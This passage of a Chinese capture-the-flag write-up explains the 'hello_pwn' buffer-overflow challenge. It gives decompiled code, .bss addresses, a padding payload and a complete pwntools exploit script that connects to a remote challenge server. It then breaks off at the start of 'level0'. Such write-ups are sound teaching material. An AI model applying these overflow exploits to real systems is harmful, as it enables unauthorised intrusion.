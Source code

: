 ## 0x04 hello_pwn

和上一题类似

也是溢出覆盖

```cpp
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 1853186401 )
    sub_400686();
```

>ssize_t read (int fd, void *buf, size_t count);
>
>read()是一个计算机编程语言函数，会把参数fd所指的文件传送nbyte个字节到buf指针所指的内存中。若参数nbyte为0，则read()不会有作用并返回0。返回值为实际读取到的字节数，如果返回0，表示已到达文件尾或无可读取的数据。错误返回-1,并将根据不同的错误原因适当的设置错误码。

在ida pro里看这两个的地址

```asm
.bss:0000000000601068 unk_601068      db    ? ;               ; DATA XREF: main+3B↑o
.bss:0000000000601069                 db    ? ;
.bss:000000000060106A                 db    ? ;
.bss:000000000060106B                 db    ? ;
.bss:000000000060106C dword_60106C    dd ?                    ; DATA XREF: main+4A↑r
```

差四个字节覆盖到dword_60106c，于是构造

### payload

```python
payload="a"*4+p64(1853186401)
```

### Exp

```python
#coding=utf-8
from pwn import *
payload="a"*4+p64(1853186401)

io=remote("111.198.29.45","46962")
io.recvuntil("lets get helloworld for bof")
io.send(payload)
io.interactive()
```

## 0x05 level0

checksec 一下 发现是amd64的程序 没有开RELRO，STACK和PIE

放进IDA pro里发现callsystem后门

又在vulnerable_function()里看到如下内容
